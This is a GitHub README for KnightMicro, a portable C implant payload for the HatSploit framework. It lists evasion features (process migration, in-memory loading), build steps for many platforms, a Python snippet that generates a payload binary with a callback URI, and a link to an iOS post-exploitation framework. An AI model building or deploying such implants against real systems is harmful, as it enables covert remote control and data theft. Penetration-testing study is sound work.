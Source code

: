 # Friendly like a Pony

```shell
                    /
Knight Cavalry ,.. /
             ,'   ';
  ,,.__    _,' /';  .
 :','  ~~~~    '. '~
:' (   )         )::,
'. '. .=----=..-~  .;'
 '  ;'  ::   ':.  '"
   (:   ':    ;)
    \\   '"  ./
     '"      '"
```

KnightMicro is an implementation of an advanced payload written in pure C and designed for portability and extensibility.

This repository contains KnightMicro, which is supposed to work on *MacOS*, *Linux*, *Windows* and *iOS*, but can be ported to almost every POSIX system. KnightMicro is optimized to work with or without [HatSploit Framework](https://github.com/EntySec/HatSploit).

## Features

* Portable C code that can be compiled for a big range of targets.
* Support for *MacOS*, *Linux*, *Windows* and *iOS* targets.
* Small executable with low resource utilization optimized for embedded systems.
* Dynamically-extendable, supports loading plugins (TABs) which extend its functionality.
* Evasion techniques such as process migration and in-memory loading.

## Installing

To install KnightMicro you simply need to install [HatSploit Framework](https://github.com/EntySec/HatSploit) and this will make KnightMicro available automatically.

```python
pip3 install git+https://github.com/EntySec/HatSploit
```

## Building

**Building dependencies:**

```
make TARGET=<target>
```

**NOTE:** For *macOS / iOS* targets you are required to set `SDK` to the desired SDK path before running `make`. For example:

```
make TARGET=<target> SDK=<path>
```

You can find list of supported `TARGET` values for different platforms.

<details>
    <summary>Linux</summary><br>
    <code>aarch64-linux-musl</code><br>
    <code>armv5l-linux-musleabi</code><br>
    <code>armv5b-linux-musleabi</code><br>
    <code>i486-linux-musl</code><br>
    <code>x86_64-linux-musl</code><br>
    <code>powerpc-linux-muslsf</code><br>
    <code>powerpc64le-linux-musl</code><br>
    <code>mips-linux-muslsf</code><br>
    <code>mipsel-linux-muslsf</code><br>
    <code>mips64-linux-musl</code><br>
    <code>s390x-linux-musl</code><br>
    <br>
</details>

<details>
    <summary>Windows</summary><br>
    <code>x86_64-w64-mingw32</code><br>
    <code>x86_64-w64-mingw32</code><br>
    <br>
</details>

<details>
    <summary>MacOS / iOS</summary><br>
    <code>arm-iphone-darwin</code><br>
    <code>aarch64-iphone-darwin</code><br>
    <code>i386-apple-darwin</code><br>
    <code>x86_64-apple-darwin</code><br>
    <code>aarch64-apple-darwin</code><br>
    <br>
</details>

**Building sources:**

```shell
cmake -DCMAKE_TOOLCHAIN_FILE=<toolchain> -B build
cmake --build build
```

**NOTE:** For *MacOS / iOS* targets you are required to set `CMAKE_OSX_SYSROOT` to the desired SDK path with `-D`. For example:

```shell
cmake -DCMAKE_TOOLCHAIN_FILE=<toolchain> -DCMAKE_OSX_SYSROOT=<path> -B build
```

**NOTE:** Toolchains are located at `toolchain/cmake/`.

These are other `cmake` build options:

* `MAIN` - Should be `ON` if you want to build a source file to executable.
* `SOURCE` - Custom executable source file (default are in `src/main/`).
* `DEBUG` - Should be `ON` if you want to build KnightMicro in debug mode.
* `BUNDLE` - Build as bundle (macOS specific flag, adds `-bundle`)

## Basic usage

To use KnightMicro and build payloads you should import it to your source.

```python3
from KnightMicro import KnightMicro
from KnightMicro.session import KnightMicroSession
```

* `KnightMicro` - KnightMicro object that is used to generate payload implant.

```python3
KnightMicro = KnightMicro(
    target='aarch64-apple-darwin',
    options={
        'uri': 'tcp://127.0.0.1:8888'
    }
)

with open('payload.exe', 'wb') as f:
    f.write(KnightMicro.to_binary())
```

* `KnightMicroSession` - Wrapper for `HatSploitSession` for KnightMicro, HatSploit should use it with KnightMicro payload. It might also be used without HatSploit as demonstrated in `examples/listener.py`.

## Projects

* [SeaShell Framework](https://github.com/EntySec/SeaShell) - iOS post-exploitation framework that enables you to access the device remotely, control it and extract sensitive information. SeaShell actively uses KnightMicro implant to communicate with iOS.

## Caveats

The code provided in this repository has not yet been prepared for use in a production environment. It can be improved, so any contribution is welcome. You can even experience memory leaks, so we'll be glad to accept every single PR which is fixing a potential issue.

# Thanks To
>- EntySec